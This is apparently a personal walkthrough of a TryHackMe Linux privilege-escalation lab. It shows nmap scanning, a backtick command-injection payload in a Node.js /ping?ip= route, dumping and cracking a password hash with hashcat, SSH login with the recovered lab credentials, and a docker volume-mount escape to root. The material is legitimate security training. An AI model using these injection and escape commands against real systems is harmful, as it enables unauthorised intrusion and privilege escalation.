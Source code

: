 # Matheus Jesus 11-04-2020

## Try Hack Me - Linux Privesc Playground (https://tryhackme.com/room/privescplayground)

### IP 10.10.173.59

#### NMAP

nmap -sC -sV -oN nmap_initial 10.10.173.59

checkout all ports
nmap -sC -sV -p-65535 -oN nmap_initial 10.10.173.59

#### 8081 Node.js server

There is an /auth route with params user and password

Found a /ping?ip={IP} route
EXPLOITABLE WITH COMMAND INJECTIO

/ping?ip=`ls` responds ping: utech.db.sqlite: Name or service not known 

by executing ping?ip=`cat utech.db.sqlite`
f357a0c52799563c7c7b76c1e7543a32

hashcat -m 0 -a 0 f357a0c52799563c7c7b76c1e7543a32 /usr/share/wordlists/rockyou.txt --force

Mr00t:n100906
f357a0c52799563c7c7b76c1e7543a32:n100906

Madmin:mrsheafy
0d0ea5111e3c1def594c1684e3b9be84:mrsheafy

#### 31331 Apache server

There is a /partners.html route to login through auth api on 8081

#### SSH

access machine with ssh r00t@10.10.173.59 : n100906

#### Privilege escalation

Enumeration
scp /opt/linPEAR/linpeas.sh r00t@10.10.173.59:/dev/shm
scp /opt/linEnum/linEnum.sh r00t@10.10.173.59:/dev/shm

Docker privilege escalation

docker run -v /:/mnt --rm -it bash chroot /mnt sh